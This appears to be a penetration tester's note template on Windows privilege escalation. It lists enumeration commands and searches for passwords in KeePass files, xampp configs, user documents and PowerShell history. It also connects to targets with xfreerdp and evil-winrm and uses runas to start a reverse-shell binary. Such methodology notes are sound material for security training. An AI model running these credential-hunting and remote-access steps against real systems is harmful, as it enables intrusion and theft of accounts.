


#### cmd not responding ? 
set path 
```powershell
PATH=%PATH%;C:\windows\system32;C:\Windows\system32\WindowsPowerShell\v1.0\
#powershell
C:\Windows\system32\WindowsPowerShell\v1.0\powershell
```
```powershell
# powershell bypass
powershell -ep bypass
```
results:
```powershell

```


```powershell
#Username and hostname
whoami
```
results:
```powershell

```

```powershell
hostname
```
results:
```powershell

```

```powershell
# what is my groups
whoami /groups
```
results:
```powershell

```

```powershell
#enumeraete existing users
Get-LocalUser
```
results:
```powershell

```

```powershell
Get-LocalUser | select name
```
results:
```powershell

```

```powershell
#enumerate existing groups 
Get-LocalGroup
```
results:
```powershell

```

```powershell
# get user related info and groups (both commands gives the same results)
Get-LocalGroupMember <% tp.frontmatter["domain-username"] %>
net user <% tp.frontmatter["domain-username"] %>
#based on the information you got, you can connect using one of the following methods
```
```powershell

```

```powershell
net localgroup 'Remote Desktop Users'  
net localgroup 'Remote Management Users'
```
results:
```powershell

```


[xfreerdp](6-%20Zettelkasten/xfreerdp.md)
```powershell
xfreerdp /cert-ignore /u:<% tp.frontmatter["domain-username"] %> /p:<% tp.frontmatter["domain-password"] %> /v:<% tp.frontmatter["RHOSTS"] %> /dynamic-resolution
```
[Evil-WinRM](6-%20Zettelkasten/Evil-WinRM.md)
```powershell
evil-winrm -i <% tp.frontmatter["RHOSTS"] %> -u <% tp.frontmatter["domain-username"] %> -p '<% tp.frontmatter["domain-password"] %>' # change the username and password
```
[execute command via runas](6-%20Zettelkasten/execute%20command%20via%20runas.md)
```powershell
runas /user:<% tp.frontmatter["domain-username"] %> cmd
```


```python
systeminfo
```

In case we are blocked, one of the following will work
```powershell
#wmic might not work on windows11
wmic os get Caption,Version,BuildNumber,OSArchitecture
wmic computersystem get name, domain, manufacturer, model

ver #get basic version info.
echo %PROCESSOR_ARCHITECTURE% #architecture.

Get-ComputerInfo
Get-WmiObject -Class Win32_OperatingSystem
Get-WmiObject -Class Win32_ComputerSystem

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion"
```
nothing working? try [PowerView](PowerView) . find the download steps at [4.1- AD - Manual Enumeration](5-%20Templates/05%20active%20directory/4.1-%20AD%20-%20Manual%20Enumeration.md)
```powershell
# PowerView.ps1 command 
Get-NetComputer
```

results:
```powershell

```

```powershell
netstat -ano
```
results:
```powershell

```
```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
any suspicious application? 
results:
```powershell

```

```powershell
#get the name of all processes
gwmi win32_process | select name
#get executable path. replace "NonStandardProcess.exe" with the correct binary .exe name
wmic process where "name='NonStandardProcess.exe'" get ProcessID, ExecutablePath /FORMAT:LIST
```
results:
```powershell

```


---
###### **2- find passwords or important information in plain text files**

***Discovering KDBX files***
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```
results:
```powershell

```

***Discovering xampp files***
```powershell
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
```
results:
```powershell

```

***Discovering important files at the user directory***
```powershell
Get-ChildItem -Path C:\Users\<% tp.frontmatter["domain-username"] %>\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```
results:
```powershell

```

If we got password in these files of another user, we should check what group that user is part of 
```powershell
net user <username>
```
results:
```powershell

```

does he belong to one of these groups?


[xfreerdp](6-%20Zettelkasten/xfreerdp.md)
```powershell
xfreerdp /cert-ignore /u:<% tp.frontmatter["domain-username"] %> /p:<% tp.frontmatter["domain-password"] %> /v:<% tp.frontmatter["RHOSTS"] %> /dynamic-resolution
```
[Evil-WinRM](6-%20Zettelkasten/Evil-WinRM.md)
```powershell
evil-winrm -i <% tp.frontmatter["RHOSTS"] %> -u <% tp.frontmatter["domain-username"] %> -p '<% tp.frontmatter["domain-password"] %>' # change the username and password
```
[execute command via runas](6-%20Zettelkasten/execute%20command%20via%20runas.md)
```powershell
# rdp access
runas /user:<% tp.frontmatter["domain-username"] %> cmd
# winrm or reverse shell access
runas /user:<% tp.frontmatter["domain-username"] %> C:\Temp\reverse.exe
```

---
###### 3- PowerShell History
1-[_Get-History_](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/get-history?view=powershell-7.2)  way
We can use the [_Get-History_](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/get-history?view=powershell-7.2) Cmdlet to obtain a list of commands executed in the past.
```powershell
Get-History
```
results:
```powershell

```

2-**Get-PSReadlineOption** way 
To retrieve the history from PSReadline, we can use **Get-PSReadlineOption** to obtain information from the PSReadline module.
```powershell
(Get-PSReadlineOption).HistorySavePath
```
results:
```powershell

```
copy the path and then display it 
```powershell
type C:\whatever file you got here
#example
type C:\Users\<% tp.frontmatter["domain-username"] %>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
results:
```powershell

```

here we check if there is any "-Secret" or "Password" mentioned. or other file to be checked. 
if so, "start-Transcript" was mentioned there as well? where is that script? type it.

If we got a password, we can then try to connect with that password via [Evil-WinRM](6-%20Zettelkasten/Evil-WinRM.md)
[Evil-WinRM](6-%20Zettelkasten/Evil-WinRM.md)
```powershell
evil-winrm -i <% tp.frontmatter["RHOSTS"] %> -u <% tp.frontmatter["domain-username"] %> -p '<% tp.frontmatter["domain-password"] %>' # change the username and password
```

3- **Event viewer** way.
**Manual command** (reference : [Compromised](6-%20Zettelkasten/Compromised.md))
```powershell
Get-EventLog -LogName 'Windows PowerShell' -Newest 1000 | Select-Object -Property * | out-file c:\users\scripting\logs.txt
```
**Desktop way**
use [xfreerdp](6-%20Zettelkasten/xfreerdp.md) if the user can and search for secrets in events
```powershell
xfreerdp /cert-ignore /u:<% tp.frontmatter["domain-username"] %> /p:<% tp.frontmatter["domain-password"] %> /v:<% tp.frontmatter["RHOSTS"] %> /dynamic-resolution
```
first, open "Event Viewer"

then go to the following directory 

search for powershell folder 


and click on operations
you will then get events like "Execute a Remote command"

then you will find it there. 

results:
```powershell

```


# reference 
[[Windows Privilege Escalation-Original Template]]

Tags: [xfreerdp](6-%20Zettelkasten/xfreerdp.md) , [Windows Privilege Escalation](6-%20Zettelkasten/Windows%20Privilege%20Escalation.md) , [0- methodolgy](5-%20Templates/04%20Post%20Exploitation/02%20Windows%20privilege%20escalation/0-%20methodolgy.md)
